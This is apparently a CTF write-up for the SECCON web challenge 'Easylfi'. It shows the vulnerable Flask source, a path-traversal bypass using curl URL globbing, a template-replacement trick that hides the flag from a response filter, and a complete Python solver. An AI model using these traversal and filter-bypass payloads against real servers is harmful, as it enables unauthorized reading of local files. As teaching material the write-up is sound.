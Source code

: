 ```yaml
---
title: Easylfi
published: true
ayout: post
date: 2022-10-15 18:54 +0600
tags: [CTF]
featured: false
---
```


I solved some web challenges with my idol ginoah. The challenges are awesome!

Description:

Can you read my secret?

The goal is to LFI /flag.txt

This flask app use curl to get a local file

This is server-side challenge.

You access the server:

![](https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2022-10-15-Easylfi/2022-10-15-Easylfi-01.png)


If you submit `test`, the server redirects to `/hello.html?%7Bname%7D=test:`


![](https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2022-10-15-Easylfi/2022-10-15-Easylfi-02.png)


Source code `(web/app.py` ):


```python
from flask import Flask, request, Response
import subprocess
import os

app = Flask(__name__)


def validate(key: str) -> bool:
    # E.g. key == "{name}" -> True
    #      key == "name"   -> False
    if len(key) == 0:
        return False
    is_valid = True
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
    return is_valid


def template(text: str, params: dict[str, str]) -> str:
    # A very simple template engine
    for key, value in params.items():
        if not validate(key):
            return f"Invalid key: {key}"
        text = text.replace(key, value)
    return text


@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response("Try harder")
    return response


@app.route("/")
@app.route("/<path:filename>")
def index(filename: str = "index.html"):
    if ".." in filename or "%" in filename:
        return "Do not try path traversal :("

    try:
        proc = subprocess.run(
            ["curl", f"file://{os.getcwd()}/public/{filename}"],
            capture_output=True,
            timeout=1,
        )
    except subprocess.TimeoutExpired:
        return "Timeout"

    if proc.returncode != 0:
        return "Something wrong..."
    return template(proc.stdout.decode(), request.args)

```

The goal is stealing a flag from `/flag.txt`.

## Solution


### Step 1: path traversal

The server uses curl to read files:


```code
proc = subprocess.run(
    ["curl", f"file://{os.getcwd()}/public/{filename}"],
    capture_output=True,
    timeout=1,
)
```



Unfortunately, path traversal to `/flag.txt` is prevented:

```code
if ".." in filename or "%" in filename:
    return "Do not try path traversal :("
```

By the way, curl has a feature of  [URL globbing](https://everything.curl.dev/cmdline/globbing), and you can access multiple resources at the same time.
You can bypass the above defense using this feature:

```
$ http "http://localhost:3000/.{.}/.{.}/flag.txt"
HTTP/1.1 200 OK
Connection: close
Content-Length: 10
Content-Type: text/html; charset=utf-8
Date: Sat, 05 Nov 2022 12:09:18 GMT
Server: Werkzeug/2.2.2 Python/3.10.8

Try harder

```

However, the following WAF hides the flag response:

```
@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response("Try harder")
    return response

```

### Step 2: bypassing WAF

The server returns a response after the following process:


```return template(proc.stdout.decode(), request.args)```


The implementation of the template engine is as follows:


```code
def validate(key: str) -> bool:
    # E.g. key == "{name}" -> True
    #      key == "name"   -> False
    if len(key) == 0:
        return False
    is_valid = True
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
    return is_valid


def template(text: str, params: dict[str, str]) -> str:
    # A very simple template engine
    for key, value in params.items():
        if not validate(key):
            return f"Invalid key: {key}"
        text = text.replace(key, value)
    return text

```

Is it possible to show the flag string without `SECCON` by abusing this template engine?

The first important point is that `validate("{")` is `True`. You can bypass it with this bug and URL globbing.

Example payload:

   - URL: ```file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}```
   - params:

   ```code
   {
    "{name}": "{",
    "{": "}{",
    "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": ""
}

```

The process in the template engine is as follows.

The initial state:

```
... snip ...
<body>
  <h1>Hello, {name}!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON{real_flag}

```

```"{name}" → "{":```

```
... snip ...
<body>
  <h1>Hello, {!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON{real_flag}

```

`"{" → "}{":`


```
... snip ...
<body>
  <h1>Hello, }{!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON}{real_flag}

```

```"{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}" → "":```


```
... snip ...
<body>
  <h1>Hello, }{real_flag}

```

### Solver

```python
import os
import httpx

BASE_URL = f"http://easylfi.seccon.games:3000"

res = httpx.get(
    BASE_URL + "/{.}./{.}./{app/public/hello.html,flag.txt}",
    params={
        "{name}": "{",
        "{": "}{",
        "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": "",
    },
)

print("SECCON" + res.text.split("<h1>Hello, }")[1])

```

## Credit to
* [cjiso1117](https://twitter.com/cjiso1117)


